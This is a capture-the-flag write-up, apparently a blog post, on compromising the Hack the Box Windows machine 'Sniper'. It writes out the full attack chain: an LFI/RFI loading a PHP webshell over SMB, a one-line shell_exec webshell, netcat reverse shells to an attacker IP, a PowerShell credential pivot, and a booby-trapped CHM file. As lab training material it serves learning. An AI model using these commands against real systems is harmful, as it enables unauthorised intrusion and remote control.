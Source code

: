 +++
author = "Nick"
categories = ["hack the box", "LFI", "RFI", "PHP", "reverse shell", "Powershell", "rsync", "netcat", "windows", "chm"]
date = 2020-03-28T15:08:24Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/sniper.png"
slug = "hack-the-box-sniper"
summary = "Welcome everyone. Today we will be doing the machine Sniper on Hack the Box. The machine is a Windows machine and listed as medium in difficulty. Let's jump in!"
tags = ["hack the box", "LFI", "RFI", "PHP", "reverse shell", "Powershell", "rsync", "netcat", "windows", "chm"]
title = "Hack the Box - Sniper"

+++


Welcome everyone. Today we will be doing the machine Sniper on Hack the Box. The machine is a Windows machine and listed as medium in difficulty. Let's jump in!

As usual, we kick it off with our ```nmap``` scan: ```nmap -sC -sV -oA initial_scan 10.10.10.151```
The results came back pretty limited, so we rerun the nmap with ```-p-``` for all ports and speed it up a bit with ```-T4```.

```
Nmap scan report for 10.10.10.151
Host is up (0.053s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m58s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-27T23:15:28
|_  start_date: N/A
```

We see a webserver running so we go to see what it's hosting. The site is a logistics site. We take a look at the source but there's nothing of any use there. We do see the ```body``` tag being repeated a few times, which is a bit odd. We do see we have some additional routes though. We have ```/blog``` and ```/user```. We explore those pages and the links that they contain. We see there is also a ```registration.php```. So to get a better idea of what might be here we'll use ```gobuster``` to start enumerating possible new locations and pages.

We'll give it our standard command: ```gobuster dir -u http://10.10.10.151 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php```.

While that run's we will quckly point ```SQLMap``` and the ```/blog/?lang=blog-es.php``` route and see what it might find. Nothing shows up. We'll load up ```Burpsuite``` and see what the requests are actually doing. 

We get our proxy turned on and start looking at the requests. The first request that we want to look at is obviously ```/blog/?lang=``` since this has potential for exploit. We play with the request a few times and finally find a ```LFI```.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-5.png" caption="We request the system.ini file" >}}

{{< figure src="__GHOST_URL__/content/images/2019/12/image-6.png" caption="And here it is." >}}

So it looks like we have an LFI we can exploit. Now we need convert this LFI into somehow. Thankfully Windows will let us execute scripts on ```SMB``` shares. Explicitly this [RFI PHP Bypass](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html). So we'll need to create a reverse shell script and remote execution script, spin up an SMB share and then call the script via our LFI. 

We'll start with making a ```Meterpreter``` reverse shell with ```MSFPC```. 
Command: ```MSFPC windows tun0 4444```

Now that we have our shell, we will get a SMB server running. Originally I spun up the share with ```impacket``` but that failed to work, so we will need to turn on our hosting locally, following the instructions linked above:

```
mkdir /var/www/html/pub/ 
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
echo > /etc/samba/smb.conf
echo -e "[global]\nworkgroup = WORKGROUP\nserver string = Samba Server %v\nnetbios name = name-me\nsecurity = user\nmap to guest = bad user\nname resolve order = bcast host\ndns proxy = no\nbind interfaces only = yes\n[ica]\npath = /var/www/html/pub\nwritable = no\nguest ok = yes\nguest only = yes\nread only = yes\ndirectory mode = 0555\nforce user = nobody" > /etc/samba/smb.conf
service smbd restart 
```
We can take those commands above and slap them in a ```.sh``` file for easy repeatability should we want to.
  
Now we need to have a way for our shell to executed. There are a few ways to do this, the most common being use a premade reverse shell execution script or make one using ```<?php echo shell_exec($_GET[‘cmd’]); ?>```. This will let you append CMD at the end of the .php call and execute something. In this case I used [WhileWinterWolfs PHP shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

Now that we have our pieces in place, let's execute! We head over to our browser and go to ```http://10.10.10.151/blog/?lang=//10.10.15.177/ica/wolfshell.php```. This will make the server load the file from our ```SMB``` share and give us a shell back to itself.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-7.png" >}}

We have a shell as ```iusr```. We need to convert this into a more permanent shell. We will upload our previously created payload to the system and execute it. 

During the upload we seem to keep getting some errors. Possibly due to Windows Defender eating our payload(s). So we'll get a bit more lowtech and basic. We can upload a ```netcat``` binary and just use that to forward a shell to us.

{{< figure src="__GHOST_URL__/content/images/2019/12/full_nc.gif" >}}

Now that we have a more stable shell type, lets enumerate. In the ```inetpub``` structure we see some interesting files:

{{< figure src="__GHOST_URL__/content/images/2019/12/image-8.png" >}}

Inside the ```db.php``` file we some credentials.

Creds:
```dbuser``` | ```36mEAhz/B8xQ~2VM```

These credentials very well could work for the user we are after, Chris. So we will try and escalate our permissions to his account via ```Powershell```. You need a bit of understanding on ```Powershell``` usage but it's pretty simple when we think about it. We need to store these credentials as variables, then pass them to the process we want to run.

```
$username = 'sniper\chris'
$pass = '36mEAhz/B8xQ~2VM'
$securePass = ConvertTo-SecureString $pass -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username,
$securePass
$session = New-PSSession -ComputerName Sniper -Credential $credential
Invoke-Command -Session $session -ScriptBlock { C:\tmp\nc.exe -e cmd.exe 10.10.15.177 9999}
```

Here's a quick breakdown of the above. The ```$username``` variable stores our username. The ```$pass``` stores our password. We then convert the ```$pass``` variable into a secured variable that we can pass to other functions. With ```$credential``` we store the ```$username``` and secured ```$pass```. We then create a new session with ```New-PSSession```. This created a new "sub session" within the machine. Then we finally tell that session to forward a escalated shell via ```nc.exe```.

{{< figure src="__GHOST_URL__/content/images/2019/12/escalate.gif" >}}

Now that we have a shell as Chris, let's enumerate again! There is a file called ```Instructions.chm``` in the ```Downloads``` folder. We also see there is a folder called ```Docs``` on the root of C. Inside we have a few files.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-9.png" >}}

We will send the .chm over to our machine with nc: 
```C:\temp\nc64.exe -w 3 10.10.15.177 777 < instructions.chm```

Catch it with the corresponding listener: 
```nc -lvnp 777 > instructions.chm```

This is what we see when we open the file:

{{< figure src="__GHOST_URL__/content/images/2019/12/image-10.png" >}}

Nothing of great use. However based on what we saw, we know that the CEO is expecting some documentation to land in the Docs directory. Maybe we can craft a payload and when the CEO opens it, compromises him. Luckily for us, we have the means [to do just that](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1).

We'll clone this repo down to our Windows machine. We run the command in Powershell to create our payload:

```Out-CHM -Payload "C:\tmp\nc.exe 10.10.15.177 7331 -e cmd.exe" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"```

This creates the payload. We then need to get our payload to ```C:\Docs```. Spin up a ```SimpleHTTPServer``` to host our file. Then use ```invoke-webrequest``` in powershell to get the file to download.

```invoke-webrequest -uri http://10.10.15.177/safe.chm -outfile C:\Users\Chris\Documents\safe.chm```

Once we download it, we move it to ```C:\Docs``` and wait for a shell.

{{< figure src="__GHOST_URL__/content/images/2019/12/lsat_step.gif" >}}

We have a shell as root!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

